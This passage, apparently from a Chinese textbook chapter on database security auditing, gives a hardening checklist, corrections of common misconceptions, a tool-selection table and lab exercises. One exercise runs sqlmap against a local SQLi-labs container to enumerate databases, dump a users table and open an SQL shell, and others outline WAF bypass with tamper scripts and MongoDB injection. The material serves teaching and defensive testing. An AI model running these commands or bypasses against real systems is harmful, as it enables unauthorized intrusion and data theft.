│   □ 账户锁定策略是否配置（防止暴力破解）
│   □ 是否启用了SSL/TLS加密连接
│   □ 是否禁用了空密码账户
│
├── 二、授权安全
│   □ 是否遵循最小权限原则
│   □ 是否存在过度授权的用户（如开发人员拥有DBA权限）
│   □ 是否删除了匿名账户
│   □ 是否禁用了远程root登录
│   □ 是否存在测试数据库在生产环境中
│
├── 三、网络安全
│   □ 数据库是否绑定到内网IP（非0.0.0.0）
│   □ 是否配置了防火墙规则限制访问源IP
│   □ 是否禁用了不必要的存储过程和函数（如xp_cmdshell）
│   □ 数据库端口是否修改为非默认值
│
├── 四、数据安全
│   □ 敏感数据是否加密存储（TDE/列级加密）
│   □ 备份文件是否加密
│   □ 是否有数据访问审计日志
│   □ 是否有数据导出/下载限制
│
├── 五、审计与监控
│   □ 审计日志是否启用
│   □ 审计日志是否覆盖关键操作
│   □ 审计日志是否防篡改（写入独立存储）
│   □ 是否有异常行为告警机制
│   □ 日志保留期是否符合合规要求（通常6个月以上）
│
└── 六、备份与恢复
    □ 备份策略是否完整（全量+增量+日志）
    □ 备份是否定期测试恢复
    □ 备份是否异地存储
    □ 备份数据是否加密
    □ 恢复时间目标(RTO)和恢复点目标(RPO)是否明确
```

### 9.6 常见误区与纠正

**误区一：安装了数据库防火墙就不需要参数化查询了。**

纠正：数据库防火墙是额外的防护层，不是替代方案。防火墙的规则可能被绕过（通过编码、分块、HTTP参数污染等技术），而参数化查询从代码层面消除了注入的根本成因——代码与数据的边界混淆。正确做法是：代码层用参数化查询 + 网络层部署防火墙 + 持续审计验证。

**误区二：审计日志开了就是做了审计。**

纠正：审计日志只是数据采集，真正的审计需要：(1) 明确审计范围（哪些操作需要审计）；(2) 日志安全存储（防篡改、独立存储）；(3) 日志分析能力（规则引擎+行为分析）；(4) 告警响应流程（发现问题后如何处理）；(5) 定期审查机制（人工+自动化结合）。只有日志没有分析等于什么都没做。

**误区三：数据库漏洞扫描器报告了所有风险。**

纠正：扫描器只能检测已知漏洞和配置问题，无法发现：(1) 业务逻辑层面的权限设计缺陷；(2) 二次注入等需要理解数据流才能发现的漏洞；(3) 零日漏洞；(4) 内部人员恶意操作。扫描器是审计的起点，不是终点。

**误区四：sqlmap检测不到注入就说明没有注入漏洞。**

纠正：sqlmap 的自动化检测存在盲区：(1) 二次注入无法通过参数直接触发；(2) 某些特定的WAF配置可能完全拦截sqlmap的Payload；(3) 需要特定上下文才能触发的注入（如存储过程中的动态SQL）；(4) 非HTTP协议的注入（如WebSocket、gRPC）。对于高安全要求的场景，应结合代码审计和人工渗透测试。

**误区五：开源工具（如GreenSQL）不适合企业生产环境。**

纠正：工具的适用性取决于场景而非价格。GreenSQL等开源数据库防火墙在中小企业场景中表现良好，且源码可审计（不存在后门风险）。选择工具时应评估：(1) 数据库类型和版本支持；(2) 性能影响（延迟和吞吐量）；(3) 维护团队的技术能力；(4) 合规要求。很多大型企业也在使用开源方案（如ELK Stack做日志审计）。

### 9.7 工具选择决策指南

面对众多工具，如何选择适合自己场景的方案？以下是基于不同角色和场景的选择建议：

| 角色 | 首选工具 | 备选工具 | 理由 |
|------|---------|---------|------|
| 渗透测试工程师 | sqlmap + NoSQLMap | Burp Suite + 手工测试 | 注入测试是核心需求，sqlmap覆盖最广 |
| 安全管理员 | Nessus + Scuba | DbProtect | 需要全面的漏洞扫描和配置审计 |
| 数据库DBA | 数据库自带审计工具 | pgAudit/MySQL Audit | 熟悉数据库原生工具，无需额外部署 |
| 合规审计师 | DbProtect + SQL Server Audit | AppDetectivePro | 需要合规报告生成能力 |
| 安全架构师 | Imperva + DAM方案 | RASP + 数据库防火墙 | 需要体系化的防护架构 |
| 个人学习者 | sqlmap + DVWA | SQLi-labs + jSQL | 学习成本低，社区资源丰富 |

### 9.8 实践练习

**练习一：sqlmap基础注入（入门）**

```bash
# 环境：使用SQLi-labs靶场（Docker部署）
docker pull acgpiano/sqli-labs
docker run -d -p 8080:80 acgpiano/sqli-labs

# 任务：使用sqlmap完成以下操作
# 1. 检测Less-1的注入类型
python sqlmap.py -u "http://localhost:8080/Less-1/?id=1" --batch

# 2. 枚举所有数据库
python sqlmap.py -u "http://localhost:8080/Less-1/?id=1" --dbs --batch

# 3. 导出security数据库的users表
python sqlmap.py -u "http://localhost:8080/Less-1/?id=1" \
  -D security -T users --dump --batch

# 4. 尝试获取SQL Shell
python sqlmap.py -u "http://localhost:8080/Less-1/?id=1" --sql-shell
```

**练习二：tamper脚本绕过WAF（进阶）**

```bash
# 环境：在SQLi-labs基础上部署ModSecurity作为WAF
# 任务：使用不同的tamper组合绕过WAF拦截
# 1. 测试基础Payload被WAF拦截
# 2. 尝试单个tamper脚本
# 3. 组合多个tamper脚本
# 4. 记录成功的tamper组合
```

**练习三：MongoDB注入测试（NoSQL方向）**

```bash
# 环境：Docker部署有漏洞的MongoDB应用
# 任务：
# 1. 使用NoSQLMap测试$gt操作符注入
# 2. 手工构造Payload绕过登录认证
# 3. 使用NoSQLMap枚举数据库和集合
# 4. 测试$where子句的JavaScript注入
```

**练习四：数据库审计日志分析（防御方向）**

```bash
# 环境：MySQL启用general_log
# 任务：
# 1. 生成混合流量（正常查询 + 注入尝试）
# 2. 从审计日志中识别注入尝试的SQL特征
# 3. 编写正则表达式匹配常见注入模式
# 4. 设计告警规则并测试
```

---

> 理解数据库安全审计工具的原理和使用，不是为了制造攻击，而是为了建立"可验证的防御"——你必须用攻击者的工具和方法来检验自己的防线，才能真正知道它是否可靠。
